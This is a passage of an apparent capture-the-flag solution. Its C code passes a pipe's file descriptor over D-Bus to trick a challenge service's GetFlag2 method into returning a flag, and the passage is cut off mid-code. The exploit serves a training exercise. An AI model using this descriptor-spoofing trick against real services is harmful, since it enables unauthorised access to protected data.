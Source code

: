 ### If I Could Be A File Descriptor

```C
#include <gio/gio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("Failed to connect to the system bus: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    int pipe_fds[2];
    if (pipe(pipe_fds) == -1) {
        perror("Failed to create pipe");
        return EXIT_FAILURE;
    }
    
    const char *request = "Please give me flag2\n";
    ssize_t written = write(pipe_fds[1], request, 21); 
    close(pipe_fds[1]); 

    if (written != 21) {
        fprintf(stderr, "Failed to write the full message to the pipe\n");
        close(pipe_fds[0]);
        return EXIT_FAILURE;
    }

    GUnixFDList *fd_list = g_unix_fd_list_new_from_array(&pipe_fds[0], 1);
    result = g_dbus_connection_call_with_unix_fd_list_sync(
        connection,
        DEST,
        OBJECT_PATH,
        INTERFACE,
        METHOD,
        g_variant_new("(h)", 0),
        NULL,
        G_DBUS_CALL_FLAGS_NONE,
        -1,
        fd_list,
        NULL,
        NULL,
        &error
    );

    if (result) {
        gchar *flag;
        g_variant_get(result, "(s)", &flag);
        g_print("Flag 2: %s\n", flag);
```